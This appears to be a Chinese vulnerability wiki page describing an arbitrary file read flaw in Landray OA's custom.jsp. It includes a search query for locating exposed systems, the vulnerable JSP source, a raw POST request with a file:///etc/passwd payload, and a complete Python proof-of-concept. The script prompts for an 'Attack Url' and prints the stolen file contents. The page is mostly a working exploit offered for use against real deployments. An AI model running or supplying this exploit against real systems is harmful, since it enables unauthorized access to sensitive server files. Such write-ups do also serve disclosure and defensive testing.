


蓝凌OA custom.jsp 任意文件读取漏洞¶
漏洞描述¶
深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息。
漏洞影响¶
蓝凌OA
网络测绘¶
app="Landray-OA系统"
漏洞复现¶
出现漏洞的文件为 custom.jsp
<%@page import="com.landray.kmss.util.ResourceUtil"%>
<%@page import="net.sf.json.JSONArray"%>
<%@page import="net.sf.json.JSONObject"%>
<%@ page language="java" pageEncoding="UTF-8"%>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core"%>
<%
JSONObject vara =
JSONObject.fromObject(request.getParameter("var"));
JSONObject body = JSONObject.fromObject(vara.get("body"));
%>
<c:import url='<%=body.getString("file") %>'>
<c:param name="var" value="${ param['var'] }"></c:param>
</c:import>
请求包为
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
var={"body":{"file":"file:///etc/passwd"}}

漏洞POC¶
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from : http://wiki.peiqi.tech
import base64
import requests
import random
import re
import json
import sys
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: 蓝凌OA 任意文件读取 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/sys/ui/extend/varkind/custom.jsp"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = 'var={"body":{"file":"file:///etc/passwd"}}'
try:
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
print("\033[36m[o] 正在请求 {}/sys/ui/extend/varkind/custom.jsp \033[0m".format(target_url))
if "root:" in response.text and response.status_code == 200:
print("\033[36m[o] 成功读取 /etc/passwd \n[o] 响应为:{} \033[0m".format(response.text))
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
